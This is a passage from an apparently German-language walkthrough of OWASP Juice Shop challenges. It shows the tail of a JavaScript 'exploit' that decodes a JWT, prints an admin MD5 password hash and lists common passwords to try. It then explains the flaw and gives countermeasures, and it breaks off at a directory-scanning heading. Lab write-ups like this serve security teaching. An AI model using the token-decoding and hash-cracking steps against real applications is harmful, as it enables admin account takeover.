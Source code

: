 ```javascript
        console.log('📋 JWT Payload:', payload);
        
        // 3. Admin-Daten suchen
        if (payload.data && payload.data.password) {
            console.log('🔑 Admin MD5 Hash gefunden:', payload.data.password);
            console.log('💡 Versuche den Hash zu cracken...');
            
            // Häufige Passwörter für MD5-Hashes in Juice Shop
            const commonPasswords = ['admin123', 'admin', 'password', '123456'];
            
            commonPasswords.forEach(pwd => {
                // Hinweis: In echter Umgebung würde man MD5 Libraries verwenden
                console.log(`🧪 Teste: ${pwd}`);
            });
        }
        
        // 4. Alternative: Suche in anderen Token-Bereichen
        console.log('🔍 Vollständige Token-Struktur:', JSON.stringify(payload, null, 2));
        
    } catch (error) {
        console.log('❌ Fehler beim Dekodieren:', error);
    }
}

// Exploit ausführen
extractAdminPassword();
```

### 💡 Erklärung

1. **JWT Structure**: JSON Web Tokens bestehen aus 3 Teilen (Header.Payload.Signature)
2. **Base64 Encoding**: Der Payload ist Base64-kodiert, nicht verschlüsselt
3. **Information Leakage**: Sensitive Daten wie Passwort-Hashes gehören nicht in JWTs
4. **MD5 Vulnerability**: MD5-Hashes sind unsicher und leicht zu cracken

### 🚨 Sicherheitslücke

- **Schwachstelle**: Sensitive Daten in JWT-Payload
- **Impact**: Vollständige Kompromittierung des Admin-Accounts
- **CVSS**: High (Administrative Privilegien)

### 🛡️ Gegenmaßnahmen

1. **Keine sensitiven Daten in JWTs** - Nur User-ID und Rollen
2. **Starke Passwort-Hashing** - bcrypt statt MD5
3. **Token-Verschlüsselung** - JWE statt JWS
4. **Kurze Token-Lebensdauer** - Automatisches Ablaufen

---

## 3. Directory Scanning - Versteckte Dateien finden

